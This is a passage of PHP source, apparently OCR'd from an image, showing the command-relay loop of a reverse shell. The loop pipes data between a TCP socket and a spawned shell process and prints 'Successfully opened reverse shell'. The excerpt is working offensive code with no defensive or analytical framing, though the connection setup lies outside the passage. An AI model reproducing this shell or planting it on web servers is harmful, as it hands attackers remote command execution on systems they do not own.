 ```php
// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
```
